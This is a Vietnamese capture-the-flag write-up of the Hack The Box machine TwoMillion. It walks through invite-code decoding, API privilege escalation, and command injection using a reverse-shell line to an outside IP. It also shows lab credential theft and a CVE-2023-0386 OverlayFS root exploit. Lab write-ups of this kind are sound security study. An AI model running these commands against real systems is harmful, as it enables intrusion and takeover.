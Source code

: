 ```yaml
---
title: HTB TwoMillion
published: 2025-08-02
tags: [HTB, Linux, Easy]
category: Writeups
author: Trohan0x00
draft: false
image: "/assets/post_image/twomillion.png"
---
```

# HTB Labs: Two Million
## I. User Flag
Mình được cấp 1 IP tương tự các machine khác, tiến hành truy cập và scan trước bằng nmap 
![image](https://hackmd.io/_uploads/rJQgmW3Bxg.png)
Thấy được chỉ có mỗi 2 services là `ssh` và `nginx` mình sẽ tiến hành recon cả hai
Mình sẽ tiến hành recon web server trước vì hiện tại chưa có thông tin về user của ssh
![image](https://hackmd.io/_uploads/SkiBmZ2Sxx.png)
Đây có lẽ là một trang intro về HTB, hoặc gì đó tương tự vậy. Để biết rõ hơn về directory của web này mình sẽ scan dir thử xem có gì đặc biệt
![image](https://hackmd.io/_uploads/rJXtpK3Dlx.png)
Mình thấy một vài dir thú vị, mình sẽ thử `/register` xem có gì đặc biệt
![image](https://hackmd.io/_uploads/rkEhaK2vgl.png)
Ta thấy đây là một trang đăng ký bình thường, nhưng để đăng ký được thì ta cần có một `invite code`, đây là một trường input nhưng mình không thể nhập được. View source mình thấy một điều thú vị
![image](https://hackmd.io/_uploads/HJ6rAKnPee.png)
Đoạn js này dùng để lấy mã `invite code` từ `localStorage` vầ ở trên ta có thể thấy thêm một file `inviteapi.min.js` tiến hành vào kiểm tra thì có vẽ như đã bị `obfuscated`
```javascript 
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```
Đây là dạng `eval obfuscation` để tránh mất thời gian mình sẽ dùng [beautifer](https://beautifier.io) để tiến hành `deobs`
```javascript 
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
```
Kết quả trả về ta có 2 `function` một là dùng để check `invite code` và cái còn lại là tạo ra `invite code`. Nói về `function` `makeInviteCode()` thì ta có thể thấy rằng nó gửi một `post req` đến `/api/v1/invite/how/to/generate` để lấy mã `invite code` từ đây và tiến hành thiết lập mã mời. Có lẽ endpoint này có thể khai thác thêm gì đó. Mình sẽ tiến hành post một `req` đến `API` để xem thử có dữ liệu gì được trả về không
![image](https://hackmd.io/_uploads/SJuUl62wee.png)
Như ta thấy, nó trả về nội dung như này, và `data` đã bị encode nhưng giờ vẫn chưa biết thuật toán dùng để encode là gì. Nhưng bên dưới lại để `entype: ROT13` nên mình sẽ decode với `RÓT13` xem
![image](https://hackmd.io/_uploads/HJJJbahvle.png)
Ta nhận được thông điệp là hãy dùng `post req` đến endpoint trên 
![image](https://hackmd.io/_uploads/r1rMZpnwle.png)
Ta tiếp tục nhận lại `data` như trên, nhưng về `data` này có vẻ như dễ dàng nhận biết được encode bằng `B64`
![image](https://hackmd.io/_uploads/SyEIWT3vlx.png)
Ta nhận lại một đoạn mã, có vẽ như chính là `invite code` nếu như không lầm thì đây chính là endpoint sẽ cung cấp `invite code` cho phía `function` ở đoạn code js truớc. Giờ mình sẽ dùng `invite code` này để reg một account
![image](https://hackmd.io/_uploads/HJDfzTnDlg.png)
![image](https://hackmd.io/_uploads/rJofG63vlg.png)
Sau khi reg thành công, ta đã vào được trang chính như trên. OK Khi vào được trang này và đã có thêm cookie. Mình sẽ tiến hành để scan dir thêm một lần nữa để xem có thể phát hiện thêm gì mới không
![image](https://hackmd.io/_uploads/BJUulxpwxe.png)
Mình thấy có thêm một dir là `/api` trả code 200 nên quyết định check thử 
![image](https://hackmd.io/_uploads/HJgAxeTvxl.png)
Ta biết thêm một dir là `/api/v1` 
![image](https://hackmd.io/_uploads/rJt-bxaPge.png)
Đây là một list `API` của version và được phân cấp theo từng người dùng. Ta có thể thấy được `/api/v1/admin` và `/api/v1/user` được chia theo từng cách call với từng method như `GET`, `POST`. Có lẽ đây là nơi mà các lệnh call `API` ở file js vừa rồi mình quan sát được nhưng không thể truy cập vào xem khi chưa có user. Có lẽ sẽ có nhiều thông tin để khai thác
Sau một lúc truy vấn thì mình phát hiện được ta có thể dùng `PUT req` đến `/api/v1/admin/settings/update`, sau khi gửi `req` đến thì ta nhận được các thông báo lỗi có thể giúp ích được rất nhiều, cụ thể
![image](https://hackmd.io/_uploads/H1qAyyCDxe.png)
Cụ thể ở `req` đầu ta nhận được `res` báo về do chưa có `content-type` hợp lệ, do `data` trả về dưới dạng json nên mình nghĩ `data` gửi hợp lệ cũng sẽ là json 
![image](https://hackmd.io/_uploads/ryeMxkCPle.png)
Sửa xong tiếp tục gửi `req` thì nhận được là thiếu param email mình lập tức thêm email vào `req` để gửi đi . Tiếp đến nó lại yêu cầu có param `is_admin`. Mình nghĩ đây là một param nhận `boolen_value` nên mình sẽ thử với `is_admin:1`
![image](https://hackmd.io/_uploads/rkl6xyADlg.png)
Kết quả ta nhận được `res` như này. Giờ có lẽ ta đã hoàn toàn có thể cấp quyền admin cho user của ta. Để test thử xem thì mình sẽ call một API admin khác
![image](https://hackmd.io/_uploads/H1JibJCwlg.png)
Hoàn toàn call thành công. Và sau khi call với `/api/v1/admin/auth` thì `res` trả về là true chứng tỏ việc leo quyền user đã thành công và giờ ta đã là `admin`
![image](https://hackmd.io/_uploads/HJfAlgCPge.png)
Tiếp theo là gửi `Post req` đến `/api/v1/admin/vpn/generate` để xem có thể khai thác gì từ `API` cuối cùng này không. Thì ta có thể thấy được nó yêu cầu thêm param là `username`
![image](https://hackmd.io/_uploads/SknQWeCvxg.png)
Và `API` này nhận bát kỳ giá trị nào của param `username`, do đó có khả năng sẽ bị `Command Injection`. Ta sẽ tiến hành thử detect
![image](https://hackmd.io/_uploads/BkWczWCDle.png)
Chỉ với việc inject đơn giản, ta đã có thể detect được lỗ hỏng. Để dễ dàng khai thác, ta cần đưa reverse shell vào để lấy shell thuận lợi cho việc khai thác hơn
```shell!
sh -i >& /dev/tcp/10.10.10.10/4242 0>&1
```
Mình sẽ dùng `bash`, sau đó chỉ cần inject vào là ta đẫ lấy được `reverse shell`.
![image](https://hackmd.io/_uploads/B1PE5GCvgg.png)
Ta thấy dễ dàng lấy được `reverse shell`, và user hiện tại là `www-data`. Không phải `admin` nên các quyền hạn hiện tại còn hạn chế. Sau một xem thử thì mình tìm được một file `.env`
![image](https://hackmd.io/_uploads/r17FO4APgg.png)
Khi cat ra ta được một credential của `admin`. Mình nghĩ đây có lẽ là credential của admin trong server `ssh`. Còn nhớ khi ta scan IP thì có 2 services 1 là `web server` 2 là `ssh`
```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
Giờ mình sẽ thử login với credential này xem 
![image](https://hackmd.io/_uploads/H1bWt40Dxx.png)
Ta đã thành công vào được `ssh server`. `ls` ra thì có file `user.txt`. Đây chính là file chứa `user flag` của ta, ban đầu khi vọc ở `reverse shell`, mình thấy được một dir là `/home/admin/user.txt` nhưng lúc đó lại không có quyền để đọc file. Giờ thì đã thành công lấy được `user flag`

> 79f5d11adcf863aadc6d588a6fbbe4a6

## II. Root Flag
Sau khi tìm được `user flag`, mình bắt đầu đi tìm `root flag` nhưng loay hoay mãi vẫn chưa tìm được thêm thông tin gì về lỗ hỏng để leo quyền và thông tin liên quan. Có check hint thì mình cần kiểm tra thêm về nơi lưu trữ các mail của `Linux system`. Sau một lúc search thì thấy được các mail được gửi đến sẽ được lưu ở `/var/mail`. Đi vào để kiểm tra thì nhận được một bản email gửi đến `admin` như sau
```mail
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
Email này là một thông điệp nội bộ, gửi từ một nhân viên tên là `ch4p` đến `admin` và cc cho `g0blin`, với nội dung liên quan đến việc vá lỗi bảo mật hệ thống.
Tìm hiểu về `CVE-2023-0386` này thì lỗ hổng này cho phép một người dùng thông thường có thể chiếm quyền `root `bằng cách lợi dụng cơ chế sao chép file (copy-up) của `OverlayFS`. Cụ thể, khi một file có quyền `setuid` được sao chép từ một lớp file hệ thống ảo (FUSE) lên lớp ghi (upper layer), `OverlayFS` đã không loại bỏ quyền `setuid` này, cho phép kẻ tấn công thực thi file với quyền root.
Sau một lúc tìm kiếm thì mình tìm được `POC` và cũng như là payload exploit của `CVE` này [ở đây](https://github.com/sxlmnwb/CVE-2023-0386)
OK giờ ta đã có payload exploit. Tiếp đến là dựng server đẻ upload zip này lên máy victim. Mình sẽ dựng `Python server` để upload
![image](https://hackmd.io/_uploads/rkwLZhldee.png)
Có vẻ như ta không có quyền uplaod ở cả user thường và admin ở phía ssh. Giờ ta cần phải upload bằng `scp`

```bash!
sshpass -p SuperDuperPass123 scp CVE-2023-0386-master.zip admin@10.10.11.221:/tmp/         
```
Ta sẽ upload thông qua credential ssh mà ta đã có và lưu ở tmp. Cách khai thác thì tiến hành mở 2 terminal do đây là `SSH Server` nên mình sẽ start 2 sessions. Ở session 1 ta sẽ run `./fuse ./ovlcap/lower ./gc`
Và tiếp theo ở session 2 là `./exp`
![image](https://hackmd.io/_uploads/SJQHiyZOeg.png)
Như ta đã thấy, giờ hoàn toàn đã leo quyền thành công. Do đây là một bài labs để khai thác nên mình sẽ chưa tìm hiểu kỹ về `CVE` này ở blog này nên chỉ cần dùng payload exploit đã công bố là được giờ ta chỉ cần đọc root flag ở `/root/root.txt`
> 0f080a26c0360745340c0b6f5b3a407b




